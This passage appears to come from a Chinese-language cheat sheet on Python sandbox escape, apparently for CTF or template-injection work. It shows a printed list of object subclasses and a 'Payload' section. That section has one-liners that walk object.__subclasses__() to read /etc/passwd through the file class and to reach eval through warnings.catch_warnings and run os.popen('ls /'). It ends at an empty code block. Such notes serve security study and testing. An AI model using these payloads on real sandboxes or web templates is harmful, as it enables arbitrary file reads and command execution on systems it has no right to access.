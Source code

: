 > > > [<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, <class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, <class 'method-wrapper'>, <class 'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, <class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, <class 'classmethod_descriptor'>, <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, <class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'moduledef'>, <class 'module'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class 'BaseException'>, <class 'hamt'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'keys'>, <class 'values'>, <class 'items'>, <class 'Context'>, <class 'ContextVar'>, <class 'Token'>, <class 'Token.MISSING'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib._installed_safely'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'classmethod'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class 'zipimport.zipimporter'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, <class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc_data'>, <class 'abc.ABC'>, <class 'dict_itemiterator'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, <class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>, <class 'types.DynamicClassAttribute'>, <class 'types._GeneratorWrapper'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class 'importlib.abc.Finder'>, <class 'importlib.abc.Loader'>, <class 'importlib.abc.ResourceReader'>, <class 'operator.itemgetter'>, <class 'operator.attrgetter'>, <class 'operator.methodcaller'>, <class 'itertools.accumulate'>, <class 'itertools.combinations'>, <class 'itertools.combinations_with_replacement'>, <class 'itertools.cycle'>, <class 'itertools.dropwhile'>, <class 'itertools.takewhile'>, <class 'itertools.islice'>, <class 'itertools.starmap'>, <class 'itertools.chain'>, <class 'itertools.compress'>, <class 'itertools.filterfalse'>, <class 'itertools.count'>, <class 'itertools.zip_longest'>, <class 'itertools.permutations'>, <class 'itertools.product'>, <class 'itertools.repeat'>, <class 'itertools.groupby'>, <class 'itertools._grouper'>, <class 'itertools._tee'>, <class 'itertools._tee_dataobject'>, <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class 'collections._Link'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'functools.partialmethod'>, <class 'contextlib.ContextDecorator'>, <class 'contextlib._GeneratorContextManagerBase'>, <class 'contextlib._BaseExitStack'>, <class 'rlcompleter.Completer'>]

### Payload

```python
# object 子类的第40个类为file类, 使用file("filename").read()可以读取文件
().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read()
# object 子类的第59个类为warnings.catch_warnings类, 该类的全部变量中有eval函数, 可以执行命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /").read()' )
```

python3 没有 file 类, 使用 open 打开文件

```python
```